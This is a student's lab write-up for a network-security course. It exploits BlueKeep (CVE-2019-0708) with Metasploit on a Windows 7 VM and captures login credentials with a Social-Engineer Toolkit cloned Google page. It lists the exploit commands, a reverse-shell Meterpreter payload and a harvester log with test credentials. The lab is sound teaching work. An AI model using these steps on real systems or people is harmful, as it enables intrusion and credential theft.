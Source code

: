 ```yaml
---
title: A&D of Network Security - Lab 13
tags: [NTU, NTU_PADNS]

---
```


# A&D of Network Security - Lab 13
###### tags: `Practicum of A&D of NS` `NTU`

## Metasploit with Bluekeep Vulnerability (CVE-2019-0708)
### Setting up environment
* Open Windows 7 and Kali-Linux with `localhost only` mode
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/Skg3sJ93Hh.png)
    
    ![](https://hackmd.io/_uploads/ByyTJqnHh.png)
    :::
* Then we can note that the IP of these two machines are different:
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/H1gOg5hSn.png)
    
    ![](https://hackmd.io/_uploads/H1VSlcnB3.png)
    :::
    Now, we know `Win7`'s IP: `192.168.56.101`
    Kali-Linux's IP: `192.168.56.102`

* Test the connection of these machines
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/HJ3D-5hS2.png)

    ![](https://hackmd.io/_uploads/S1eSW5hB3.png)
    :::
* Always allow the remote desktop connection of `Win7`
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/Hk0yzchB3.png)
    
    ![](https://hackmd.io/_uploads/HJQxfc3Sh.png)
    :::

### Try to Exploit
* Open Metasploit in Kali-Linux
    ```bash!
    $ use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
    $ info # Can check the mode you'd like to use
    $ set rhost 192.168.56.101 # set remote host IP -> victim(Win7)
    $ set lhost 192.168.56.102 # set local host IP -> attacker(Kali-Linux)
    $ set target 2 # For virtual-box mode
    $ set payload windows/x64/meterpreter/reverse_tcp # Set the exploited payload
    $ check # Check if the victim can be exploited or not
    $ exploit # Actually attack
    ```
    :::info
    Sometimes the attack will not always success, you must try until it success.
    :::
    
    :::spoiler Detailed Screenshot
    ![](https://hackmd.io/_uploads/H1PUwq2S3.png)
    ![](https://hackmd.io/_uploads/ByQ6wqnHh.png)
    :::

### Remote Desktop

## Social Engineering in Kali-Linux
1. Set up the network environment same as the lab above
2. Open Social Engineering Toolkit(root) in Kali-Linux
3. Enter Command
    ```bash!
    ...
       1) Spear-Phishing Attack Vectors
       2) Website Attack Vectors
       3) Infectious Media Generator
       4) Create a Payload and Listener
       5) Mass Mailer Attack
       6) Arduino-Based Attack Vector
       7) Wireless Access Point Attack Vector
       8) QRCode Generator Attack Vector
       9) Powershell Attack Vectors
      10) Third Party Modules

      99) Return back to the main menu.

    set> 2
    ...
       1) Java Applet Attack Method
       2) Metasploit Browser Exploit Method
       3) Credential Harvester Attack Method
       4) Tabnabbing Attack Method
       5) Web Jacking Attack Method
       6) Multi-Attack Web Method
       7) HTA Attack Method

      99) Return to Main Menu

    set:webattack>3
    ...
       1) Web Templates
       2) Site Cloner
       3) Custom Import

      99) Return to Webattack Menu

    set:webattack>1
    [-] Credential harvester will allow you to utilize the clone capabilities within SET
    [-] to harvest credentials or parameters from a website as well as place them into a report
    ...
    Enter the IP address for POST back in Harvester/Tabnabbing: 192.168.56.102 # Must using Kali-Linux IP
    ...
    -------------------------------------------------------

      1. Java Required
      2. Google
      3. Twitter

    set:webattack> Select a template:2    # You can also use other templates

    [*] Cloning the website: http://www.google.com                                                                     
    [*] This could take a little bit...                                                                                

    The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.                                                                                              
    [*] The Social-Engineer Toolkit Credential Harvester Attack
    [*] Credential Harvester is running on port 80                                                                     
    [*] Information will be displayed to you as it arrives below:

    ```
4. Open Chrome in Win7 and enter Kali IP and enter your account/password
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/SJBgpB1In.png)
    :::
5. Check Kali-Linux Terminal
    ```bash!
    192.168.56.101 - - [27/May/2023 05:25:50] "GET / HTTP/1.1" 200 -
    192.168.56.101 - - [27/May/2023 05:26:48] "GET /favicon.ico HTTP/1.1" 404 -
    [*] WE GOT A HIT! Printing the output:
    PARAM: GALX=SJLCkfgaqoM
    PARAM: continue=https://accounts.google.com/o/oauth2/auth?zt=ChRsWFBwd2JmV1hIcDhtUFdldzBENhIfVWsxSTdNLW9MdThibW1TMFQzVUZFc1BBaURuWmlRSQ%E2%88%99APsBz4gAAAAAUy4_qD7Hbfz38w8kxnaNouLcRiD3YTjX
    PARAM: service=lso
    PARAM: dsh=-7381887106725792428
    PARAM: _utf8=â
    PARAM: bgresponse=js_disabled
    PARAM: pstMsg=1
    PARAM: dnConn=
    PARAM: checkConnection=
    PARAM: checkedDomains=youtube
    POSSIBLE USERNAME FIELD FOUND: Email=test123
    POSSIBLE PASSWORD FIELD FOUND: Passwd=123456
    PARAM: signIn=Sign+in
    PARAM: PersistentCookie=yes
    [*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.
    ```
6. Done
We try to fetch the victim's account using fake web template...